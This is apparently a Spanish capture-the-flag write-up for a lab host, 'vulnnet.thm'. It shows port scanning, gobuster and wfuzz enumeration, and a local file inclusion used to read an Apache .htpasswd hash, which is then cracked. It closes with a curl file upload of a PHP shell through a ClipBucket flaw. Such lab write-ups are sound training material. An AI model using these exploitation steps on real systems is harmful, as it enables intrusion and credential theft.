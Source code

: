 
# SCAN+
```
PORT   STATE SERVICE VERSION                                                                                                                                 
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
# WEB ENUM

## DIRECTORIES

Utilizando gobuster para buscar directorios encontramos los directorios comunes:
```
gobuster dir -u vulnnet.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vulnnet.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/12 11:54:42 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/css/]
/js                   (Status: 301) [Size: 307] [--> http://vulnnet.thm/js/] 
/img                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/img/]
/fonts                (Status: 301) [Size: 310] [--> http://vulnnet.thm/fonts/]
                                                                               
===============================================================
2022/08/12 11:56:03 Finished
===============================================================

```
## SUBDOMAINS

```
gobuster vhost -u vulnnet.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 40
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://vulnnet.thm
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/08/12 11:50:33 Starting gobuster in VHOST enumeration mode
===============================================================
Found: gc._msdcs.vulnnet.thm (Status: 400) [Size: 424]
Found: broadcast.vulnnet.thm (Status: 401) [Size: 468]
Found: _domainkey.vulnnet.thm (Status: 400) [Size: 424]
                                                       
===============================================================
2022/08/12 11:50:59 Finished
===============================================================

```
Buscando subdominios (virtual hosts) tambien mediante gobuster encontramos el subdominio 

## PARAMETROS URL

Podemos utilizar wfuzz para buscar parametros para un posible ataque LFI
```
wfuzz -u vulnnet.thm/index.php?FUZZ=/etc/passwd  -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -c --hw 462
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://vulnnet.thm/index.php?FUZZ=/etc/passwd
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000003464:   200        174 L    514 W      7660 Ch     "referer"                                                                                   

Total time: 25.48573
Processed Requests: 4712
Filtered Requests: 4711
Requests/sec.: 184.8877
```
eliminando los paquetes de tamaño 462 W eliminamos los falsos positivos. Luego hemos encontrado una puerta de entrada para un posible
ataque del tipo LFI
> vulnnet.thm/index.php?referer=

# LFI EXPLOIT
Explotando la vulnerabilidad anterior podemos ver en 
> vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd, el siguiente hash
> developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
explicacion: apache guarda en el fichero .htpasswd unas credenciales con el esquema anterior (username en plain-text y password en un hash que es una variante de MD5. Si un sitio web esta configurado para para utilizar /.htpasswd cuando alguien intenta acceder al sitio le sale un formulario para acreditarse

##JtR
> developers:9972761drmfsls

# CVE
Entramos en una pagina donde hay una aplicacion llamada **ClipBucket** que es una aplicacion que nos permite subir fotos y videos tipo youtube
Vemos que para la version 4.0 hay una vulnerabilidad que nos permite RCE, file upload e incluso sqlinjection:
![image](https://user-images.githubusercontent.com/70599089/184412628-ba9e86d3-3021-401a-8dcb-38c032fa0861.png)

Optamos por un file upload utilizando un payload tipo pentestmonkey en curl
> curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://broadcast.vulnnet.thm/actions/beats_uploader.php" http://broadcast.vulnnet.thm -u developers:9972761drmfsls

